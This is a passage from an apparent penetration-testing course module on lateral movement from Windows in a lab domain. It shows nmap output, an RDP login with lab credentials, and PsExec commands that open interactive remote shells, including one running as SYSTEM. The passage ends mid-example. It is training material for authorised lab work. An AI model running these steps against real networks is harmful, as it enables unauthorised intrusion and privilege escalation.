 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.65 seconds
</code></pre>
<h2>Lateral Movement From Windows</h2>
<p>To execute lateral movement from Windows several tools and techniques can be used. In this section, we will be showing <code>PSExec</code>, <code>SharpNoPSExec</code>, <code>NimExec</code>, and <code>Reg.exe</code>. Let's connect via RDP to <code>SRV01</code> using helen's credentials:</p>
<pre><code class="language-shell-session">[!bash!]$ xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux
</code></pre>
<h3>PSExec</h3>
<p><a href="https://learn.microsoft.com/en-us/sysinternals/downloads/psexec">PsExec</a> is included in Microsoft's <a href="https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite">Sysinternals suite</a>, a collection of tools designed to assist administrators in system management tasks. This tool facilitates remote command execution and retrieves output over a named pipe using the <code>SMB</code> protocol, operating on TCP port <code>445</code> and TCP port <code>139</code>.</p>
<p>By default, <code>PSExec</code> performs the following action:</p>
<ol>
<li>Establishes a link to the hidden <code>ADMIN$</code> share, which corresponds to the <code>C:\Windows</code> directory on the remote system, via SMB.</li>
<li>Uses the Service Control Manager (SCM) to initiate the <code>PsExecsvc</code> service and set up a named pipe on the remote system.</li>
<li>Redirects the console’s input and output through the created named pipe for interactive command execution.</li>
</ol>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> <code>PsExec</code> eliminates the double-hop problem because credentials are passed with the command and generates an interactive logon session (Type 2).</p>
</div>
</div>
<p>We can use <code>PsExec</code> to connect to a remote host and execute commands interactivelly. We must specify the computer or target where we are connecting <code>\\SRV02</code>, the option <code>-i</code> for interactive shell, the administrator login credentials with the option <code>-u &lt;user&gt;</code> and the password <code>-p &lt;password&gt;</code>, and <code>cmd</code> to specify the application to execute:</p>
<pre><code class="language-powershell-session">C:\Tools\SysinternalsSuite&gt; .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd
PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami &amp;&amp; hostname
inlanefreight\helen
SRV02
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> We can execute applications such as <code>cmd</code> or <code>powershell</code> but we can also specify a command to execute. </p>
</div>
</div>
<p>In case we want to execute our payload as <code>NT AUTHORITY\SYSTEM</code>, we need to specify the option <code>-s</code> which means that it will run with <code>SYSTEM</code> privileges:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd
